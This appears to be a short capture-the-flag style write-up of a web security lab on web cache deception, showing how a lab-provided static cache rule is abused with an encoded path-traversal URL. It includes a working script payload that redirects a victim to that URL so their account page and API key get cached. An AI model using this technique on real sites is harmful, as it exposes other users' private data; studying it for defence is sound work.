 Title: Exploiting origin server normalization for web cache deception
Desc:  To solve the lab, find the API key for the user carlos. You can log in to your own account using the following credentials: wiener:peter.
We have provided a list of possible delimiter characters to help you solve the lab: Web cache deception lab delimiter list. 

I have found the static path (often targetted by cache rules) which is targetted by the cache rule, I can see that from the response header X-Cache.
![image](https://github.com/user-attachments/assets/0da0d0bc-a1e8-4d7c-b1e9-c15fd093b6a0)

`resources/labheader/js`

![image](https://github.com/user-attachments/assets/9c350207-03bb-4711-afc2-f4954aa1a54a)

I create the path `/resources/labheader/js/..%2f/..%2f/..%2f/my-account`, which utilize cache rules set on the layer of static resource, but also I make path traversal to move this cache rule on another resource.
Interesting resource is in my case my-account resource.

payload:
`<script>document.location="https://0a3c002a035db4e3803603210056007b.web-security-academy.net/resources/labheader/js/..%2f/..%2f/..%2f/my-account"</script>`

